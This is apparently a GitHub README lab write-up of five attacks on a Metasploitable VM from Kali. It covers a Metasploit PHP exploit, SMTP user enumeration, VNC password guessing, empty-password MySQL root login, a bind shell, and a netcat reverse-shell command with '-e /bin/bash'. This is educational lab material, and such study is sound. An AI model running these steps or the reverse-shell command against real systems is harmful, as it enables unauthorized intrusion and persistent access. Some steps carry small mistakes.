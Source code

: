 ## Hacks on Metasploitable VM from Kali VM

**Hack One:** I exploited CVE-2024-4577, an argument injection vulnerability in PHP, which gave me access to an Apache server which was running PHP scripts.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS OF TARGET] -sV).<br>
-Port 80, which is HTTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Find a scanner to find what is running on HTTP and its version (grep scanner search http_version).<br>
-The results should show scanners for HTTP.<br>
-Use the listed scanner (use 0) and list the details of the scanner (show options) then configure the missing details like rhosts (set rhosts [IP ADDRESS OF TARGET]) and run the scanner (run).<br>
-The result of the scan shows the services and versions of the services running on HTTP port 80.<br>
-Then search for vulnerabilities for that version of the service and limit the search to only show vulnerabilities that have something to do with whats it running on the service (searchsploit Apache 2.2.8 | grep php).<br>
-The result of this search should be vulnerabilities on this service.<br>
-Next search through Metasploitable for any exploits for any of those vulnerabilities (grep cgi search php 5.4.2).<br>
-The result of the search should return ready-to-use exploits.
-Use it (use 1) and look at the details of the exploit (show options) and fill in any details you need like rhosts (set rhosts [IP ADDRESS OF TARGET]) and exploit it (exploit).<br>
-Confirm you are now in the target machine (sysinfo (this should return information about the target system)).<br>
<br>

**Hack Two:** I gathered a list of user accounts from an SMTP server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 25, which is SMTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for SMTP (grep scanner search smtp).<br>
-The results should show scanners for SMTP.<br>
-Pick the scan you want (use 25) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a user list and try to verify user accounts on the SMTP server using a list that already comes with Kali and Metasploitable called USER_FILE which is found the detail when you run show options. The result of this is scan will be a list of user accounts found on the SMTP server.<br>
-Now you have a list of user accounts on the SMTP server that you can attack further.
-You can also access the SMTP server using Telnet (telnet [IP ADDRESS OF TARGET] 25) and now you are in the SMTP server.<br>
<br>

**Hack Three:** I found an account login password on a VNC server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 5900, which is VNC, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for VNC (grep scanner search vnc).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 88) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a password list and try to log into user accounts on the VNC server using a list that already comes with Kali and Metasploitable called PASS_FILE which is found the detail when you run show options. The details show here that there is no selected, or required, username or username list but one can be added. This scan will result in successful logins from the password list, if any.<br>
-The result of this scan found an account where the password was "password" that you can now simply log into.<br>
<br>

**Hack Four:** I logged into the root user account of a MySQL server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 3306, which is MySQL, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for MySQL (grep scanner search mysql).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 18) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-The details of this scan shows that it is going to try to find a login for a username of "root", which is a safe bet considering there is always some type of root user, but those details can be changed if so desired (set [field] [information for the field]).<br>
-The result of this scan found a root account but was unable to get the password because the length of the password was 0 characters, meaning there is no password for the root account.<br>
-Try to log into the MySQL root account of the Metasploitable server (mysql -u root -h [IP ADDRESS OF TARGET] -p) and read the error message saying "TLS/SSL error: wrong version number" meaning the version of SSL/TLS is outdated or bad for one reason or another.<br>
-Modify the MySQL command to skip SSL/TLS certification altogether (mysql -u root -h [IP ADDRESS OF TARGET] -p --skip-ssl) and want prompted for the password hit enter.<br>
-You are now in the target's MySQL account as the root user.<br>
<br>

**Hack Five:** I connected to the target machine with a bind shell and set up a reverse shell.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Found a Bindshell open on port 1524.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Used netcat (ncat [IP ADDRESS OF TARGET] 1524) (could have also used telnet or ssh on port 1524 or on their own specific ports) and accessed the target machine.<br>
-You now have access to the target machine using a bind shell.<br>
<br>
The next part will be setting up a reverse shell which is used for an attacker to be able to continue to access a target machine after the initial infiltration, for persistance.<br>
<br>
-Set up a listener on your machine over any open port (nc -nvlp [PORT NUMBER]).<br> 
-Once you are already in the target machine, use netcat (or another tool like telnet or ssh) to establish a connection back to the your machine (ncat [YOUR IP ADDRESS] [SAME PORT NUMBER] -e /bin/bash).<br>
-The listener on your machine will pick up the connection and now you have an active reverse shell and can access the target machine and have the connection being established from within the target machine, which is better than a bindshell because there is no open listening port on the target machine which may look suspicous to network monitoring tools, there is no need to evade any firewall restrictions, there is no need to try to get around the target using NAT, there is no issue if the target's IP address changes, etc.<br>
<br>

-For a walkthrough on any of these hacks, follow this YouTube playlist: 
https://youtube.com/playlist?list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA&si=QwL9kPkdTvL_J5a1<br>
<br>
